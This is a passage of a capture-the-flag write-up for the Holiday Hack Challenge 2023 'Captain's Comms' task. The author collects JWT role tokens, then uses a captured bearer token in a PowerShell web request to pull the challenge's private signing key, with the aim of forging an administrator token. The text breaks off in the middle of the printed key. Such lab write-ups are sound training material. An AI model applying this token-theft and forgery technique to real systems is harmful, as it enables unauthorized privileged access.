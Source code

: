 Clicking on the SDR and the center signal as radioDecoder:

```
{music} {music} {music} 88323 88323 88323 {gong} {gong} {gong} {gong} {gong} {gong} 12249 12249 16009 16009 12249 12249 16009 16009 {gong} {gong} {gong} {gong} {gong} {gong} {music} {music} {music}
```

Clicking on the SDR and the right signal as radioDecoder:

![image](https://github.com/FuzzyKittens/holiday-hack-challenge/assets/22179547/807727a9-2342-48c3-a0e2-84b13b446d28)

Now I have the radioUser, radioMonitor and radioDecoder tokens, and I have the public key used to verify those tokens. I need to gain access to the private key so I can create my own radioAdministrator token.

I believe after looking at the Captain's journal that the administrator role name is 'GeeseIslandsSuperChiefCommunicationsOfficer', and I know the folder for the private key is TH3CAPSPR1V4T3F0LD3R.

Since the public key is named capsPubKey.key, I suspect the private key is named capsPrivKey.key.

I verify this by attempting another GET request to that location, this time using the **radioDecoder** token obtained earlier:

```powershell
#access token for radioDecoder obtained earlier
$accessToken = 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvRGVjb2RlciJ9.cnNu6EjIDBrq8PbMlQNF7GzTqtOOLO0Q2zAKBRuza9bHMZGFx0pOmeCy2Ltv7NUPv1yT9NZ-WapQ1-GNcw011Ssbxz0yQO3Mh2Tt3rS65dmb5cmYIZc0pol-imtclWh5s1OTGUtqSjbeeZ2QAMUFx3Ad93gR20pKpjmoeG_Iec4JHLTJVEksogowOouGyDxNAagIICSpe61F3MY1qTibOLSbq3UVfiIJS4XvGJwqbYfLdbhc-FvHWBUbHhAzIgTIyx6kfONOH9JBo2RRQKvN-0K37aJRTqbq99mS4P9PEVs0-YIIufUxJGIW0TdMNuVO3or6bIeVH6CjexIl14w6fg'

$headers = @{
"Authorization" = "Bearer $accessToken"
"Content-Type" = "application/json"
}

$uri = "https://captainscomms.com/jwtDefault/keys/TH3CAPSPR1V4T3F0LD3R/capsPrivKey.key"
$result = Invoke-WebRequest -Uri $uri -Headers $headers
$content = $result.content
Write-Output $content
```

```
GET /jwtDefault/keys/TH3CAPSPR1V4T3F0LD3R/capsPrivKey.key HTTP/2

Output:
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQCwlm4slUHgR+1Q
5A3UC7BXMnKvUxrjEWjoSwTOuSmudBx2DDPaIwzvogSIfwWWApkbVTRFTg3ey4jb
g0mxvnAnfbshhcC44sEvMg3rmdCEn3AE9HtZ3gSijbAk/abYcrCRblhp2PpPZiDB
kuah3eqfomWE3TcM6TVuI24sPJZqj4w+aDZFzENHY9Gd8Fqu3PDQc8HXILZKnfd4
MaSkhdpzH+UZUcVXETWm1c/5qw4DMrXAR7PIOPJTFlwwyZXRWJvN5dvGxdi9XeSd
JyvZZg6pnmyxrhFqH2xaebQIobrfz+VUP2TBu9w7aUyVR5Onu/A5NcQbJp2kHRay
4gq48fq5AgMBAAECggEATlcmYJQE6i2uvFS4R8q5vC1u0JYzVupJ2sgxRU7DDZiI
adyHAm7LVeJQVYfYoBDeANC/hEGZCK7OM+heQMMGOZbfdoNCmSNL5ha0M0IFTlj3
VtNph9hlwQHP09FN/DeBWruT8L1oauIZhRcZR1VOuexPUm7bddheMlL4lRp59qKj
9k1hUQ3R3qAYST2EnqpEk1NV3TirnhIcAod53aAzcAqg/VruoPhdwmSv/xrfDS9R
DCxOzplHbVQ7sxZSt6URO/El6BrkvVvJEqECMUdON4agNEK5IYAFuIbETFNSu1TP
/dMvnR1fpM0lPOXeUKPNFveGKCc7B4IF2aDQ/CvD+wKBgQDpJjHSbtABNaJqVJ3N
/pMROk+UkTbSW69CgiH03TNJ9RflVMphwNfFJqwcWUwIEsBpe+Wa3xE0ZatecEM9
4PevvXGujmfskst/PuCuDwHnQ5OkRwaGIkujmBaNFmpkF+51v6LNdnt8UPGrkovD
onQIEjmvS1b53eUhDI91eysPKwKBgQDB5RVaS7huAJGJOgMpKzu54N6uljSwoisz
YJRY+5V0h65PucmZHPHe4/+cSUuuhMWOPinr+tbZtwYaiX04CNK1s8u4qqcX2ZRD
YuEv+WNDv2e1XjoWCTxfP71EorywkEyCnZq5kax3cPOqBs4UvSmsR9JiYKdeXfaC
VGiUyJgLqwKBgQDL+VZtO/VOmZXWYOEOb0JLODCXUdQchYn3LdJ3X26XrY2SXXQR
wZ0EJqk8xAL4rS8ZGgPuUmnC5Y/ft2eco00OuzbR+FSDbIoMcP4wSYDoyv5IIrta
bnauUUipdorttuIwsc/E4Xt3b3l/GV6dcWsCBK/i5I7bW34yQ8LejTtGsQKBgAmx
```